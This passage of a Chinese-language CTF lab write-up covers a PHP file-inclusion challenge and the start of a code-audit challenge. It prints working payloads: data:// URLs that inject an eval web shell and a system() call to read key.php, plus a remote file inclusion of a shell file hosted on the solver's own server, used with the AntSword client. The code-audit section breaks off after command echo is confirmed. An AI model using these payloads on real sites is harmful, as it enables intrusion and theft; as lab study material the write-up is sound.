 在url中提交w参数

![image-20241126103839064](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126103839064.png)

### 34223 文件包含

![image-20241126104004060](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126104004060.png)

![image-20241126104046200](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126104046200.png)

发现提交会添加后缀

#### 方法一：data协议

直接本地包含木马，用蚁剑连接

```
http://11.1.10.12:34223/start/index.php?page=data://text/plan,<?php @eval($_POST['x']); ?>
```

或者直接命令读取，用data协议外带出来

```
http://11.1.10.13:34223/start/index.php?page=data://text/plan,<?php system('cat ls ../key.php'); ?>
```

#### 方法二：远程文件包含

首先在本地创建一个txt同名木马文件，使用python监听8013端口

![image-20241126112416886](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126112416886.png)

直接在url中进行远程主机shell.txt的包含

http://11.1.12.154:8013/shell   这里因为.txt会自动添加，所以访问时需要取消

![image-20241126113212371](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126113212371.png)

然后使用蚁剑连接获取key.php

**注**：蚁剑连接时，需要确保python监听持续！

### *34234 代码审计

![image-20241126113658268](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126113658268.png)

提交了参数a

输出了$o=strtolower("$a")

#### 方法一：对`a`注入

![image-20241126114303996](https://gitee.com/Wizo142857/cloudimages/raw/master/img/image-20241126114303996.png)



测试其命令回显，成功
